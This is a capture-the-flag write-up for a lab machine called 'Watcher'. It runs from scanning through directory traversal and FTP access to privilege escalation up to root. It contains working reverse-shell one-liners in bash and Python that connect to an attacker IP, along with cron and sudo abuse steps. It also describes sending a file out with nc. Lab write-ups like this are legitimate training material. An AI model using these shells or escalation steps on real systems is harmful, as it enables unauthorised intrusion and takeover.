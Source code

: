 ```yaml
---

title: Watcher

difficulty: medium

date: "2023-06-07"

author: MatDef

---
```


  

# Information Gathering

  

### nmap
```shell
[REDACTED]
PORT   STATE SERVICE REASON  VERSION

21/tcp open  ftp     syn-ack vsftpd 3.0.3

22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

| ssh-hostkey:

|   2048 e1:80:ec:1f:26:9e:32:eb:27:3f:26:ac:d2:37:ba:96 (RSA)

| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7hN8ixZsMzRUvaZjiBUrqtngTVOcdko2FRpRMT0D/LTRm8x8SvtI5a52C/adoiNNreQO5/DOW8k5uxY1Rtx/HGvci9fdbplPz7RLtt+Mc9pgGHj0ZEm/X0AfhBF0P3Uwf3paiqCqeDcG1HHVceFUKpDt0YcBeiG1JJ5LZpRxqAyd0jOJsC1FBNBPZAtUA11KOEvxbg5j6pEL1rmbjwGKUVxM8HIgSuU6R6anZxTrpUPvcho9W5F3+JSxl/E+vF9f51HtIQcXaldiTNhfwLsklPcunDw7Yo9IqhqlORDrM7biQOtUnanwGZLFX7kfQL28r9HbEwpAHxdScXDFmu5wR

|   256 36:ff:70:11:05:8e:d4:50:7a:29:91:58:75:ac:2e:76 (ECDSA)

| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBmjWU4CISIz0mdwq6ObddQ3+hBuOm49wam2XHUdUaJkZHf4tOqzl+HVz107toZIXKn1ui58hl9+6ojTnJ6jN/Y=

|   256 48:d2:3e:45:da:0c:f0:f6:65:4e:f9:78:97:37:aa:8a (ED25519)

|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHb7zsrJYdPY9eb0sx8CvMphZyxajGuvbDShGXOV9MDX

80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))

|_http-generator: Jekyll v4.1.1

| http-methods:

|_  Supported Methods: GET HEAD POST OPTIONS

|_http-server-header: Apache/2.4.29 (Ubuntu)

|_http-title: Corkplacemats

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

 ```


## Website
![](images/20230707155443.png)


Niktoscan

```shell
[REDACTED]
+ /robots.txt: Entry '/flag_1.txt' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file

+ /robots.txt: contains 2 entries which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt

+ /images: IP address found in the 'location' header. The IP is "127.0.1.1". See: https://portswigger.net/kb/issues/00600300_private-ip-addresses-disclosed

+ /images: The web server may reveal its internal or real IP in the Location header via a request to with HTTP/1.0. The value is "127.0.1.1". See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2000-0649

+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.

+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.

+ /css/: Directory indexing found.

+ /css/: This might be interesting.

+ /images/: Directory indexing found.

+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/

```

### robots.txt

  ![](images/robot.txt.png)
  - Secret File not accessable
##### flag_1.txt

![](images/20230707155735.png)

### Directory Traversal possible
![](images/20230707162434.png)
##### User List:
- toby
- mat
- ftpuser
- will
Sensitive file: Secret file do not read

![](images/20230707162723.png)
Access to ftp

![](images/20230707163026.png)
##### flag_2.txt
![](images/20230707163105.png)
#### Local File Inclusion
Possible to add (pentestmonkey)php-reverse shell in files
Save location: `/home/ftpuser/ftp/files/rev_shell.php`
Access via Meterpreter/Metasploit

![](images/flag_locations.png)
##### Flag_3.txt:

![](images/20230707163842.png)

Can execute sudo without password

![](images/20230707164347.png)

Spawn a shell: `sudo -u toby /bin/bash`
Access flag_4.txt and download to attacker with nc

![](images/20230707164754.png)
There is a note
```shell
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```
- /etc/crontab
```shell
[REDACTED]
#
*/1 * * * * mat /home/toby/jobs/cow.sh
```
Every Minute cow.sh script is running

![](images/20230707165303.png)
Its modifiable
`toby@watcher:/home/toby/jobs$ echo '/bin/bash -i >& /dev/tcp/10.18.90.87/4444 0>&1' >> cow.sh`
##### flag_5.txt

![](images/20230707173036.png)
Found note:
```shell
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will

```

```shell
sudo -l
Matching Defaults entries for mat on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mat may run the following commands on watcher:
    (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *

```
Two script: `cmd.py` (writable with mat) and will_script.py
Edit cmd.py which is called by will_script.py
```shell
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.90.87",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' >> cmd.py
```
`sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1`

Got Access with will

![](images/20230707174117.png)
```shell
sudo -l
ls -la /etc/passwd
ls -la /etc/shadow
find / -name id_rsa 2>/dev/null
id #group: adm
```

Search for files with permission-group adm:
```shell
find / -group adm 2>/dev/null
/opt/backups
/opt/backups/key.b64
```
Found id_rsa base64 encoded
Connect as Root
```shell
ssh -i id_rsa root@10.10.56.139
```
##### flag_7.txt
![](images/20230707182523.png)
